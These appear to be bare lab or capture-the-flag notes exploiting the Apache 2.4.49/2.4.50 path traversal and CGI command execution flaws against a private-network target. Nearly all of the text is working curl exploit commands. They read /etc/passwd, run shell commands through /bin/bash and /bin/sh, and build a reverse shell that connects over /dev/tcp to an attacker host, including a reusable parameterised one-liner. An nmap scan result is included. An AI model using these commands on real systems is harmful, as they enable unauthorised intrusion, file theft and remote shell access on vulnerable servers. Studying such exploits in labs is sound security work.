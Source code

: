 # apache 2.4.49
curl -v 'http://10.10.209.80:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/etc/passwd'

# apache 2.4.49 (CGI)
curl -v 'http://10.10.209.80:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'echo Content-Type: text/plain; echo; cat /etc/passwd' -H "Content-Type: text/plain"

# apache 2.4.50
curl 'http://10.10.209.80:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd'



    Apache 2.4.49 without CGI: http://10.10.209.80:8080
    Apache 2.4.49 with CGI: http://10.10.209.80:8081
    Apache 2.4.50 without CGI: http://10.10.209.80:8082
    Apache 2.4.50 with CGI: http://10.10.209.80:8083


Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-04 19:37 CEST
PORT     STATE  SERVICE         VERSION
22/tcp   open   ssh             OpenSSH 8.0 (protocol 2.0)
8080/tcp closed http-proxy
8081/tcp closed blackice-icecap
8082/tcp closed blackice-alerts
8083/tcp closed us-srv
9090/tcp closed zeus-admin
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .


curl 'http://10.10.209.80:8083/cgi-bin/..%2e/..%2e/..%2e/..%2e/..%2e/..%2e/..%2e/etc/passwd' -d 'echo Content-Type: text/plain; echo; cat /etc/passwd' -H "Content-Type: text/plain"



curl -v 'http://10.10.209.80:8083/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/bash' -d 'echo Content-Type: text/plain; echo; cat /etc/passwd' -H "Content-Type: text/plain"


curl "$1/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh" -d "echo Content-Type: text/plain; echo; echo '/bin/sh -i >& /dev/tcp/$2/$3 0>&1' > /tmp/revoshell.sh" && curl "$1/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh" -d "echo Content-Type: text/plain; echo; bash  /tmp/revoshell.sh"


curl 'http://10.10.209.80:8083/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/bash' -d "echo Content-Type: text/plain; echo; echo '/bin/sh -i >& /dev/tcp/10.18.60.127/4444 0>&1' > /tmp/revoshell.sh" -H "Content-Type: text/plain" && curl 'http://10.10.209.80:8083/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/bash' -d "echo Content-Type: text/plain; echo; bash /tmp/revoshell.sh" -H "Content-Type: text/plain" 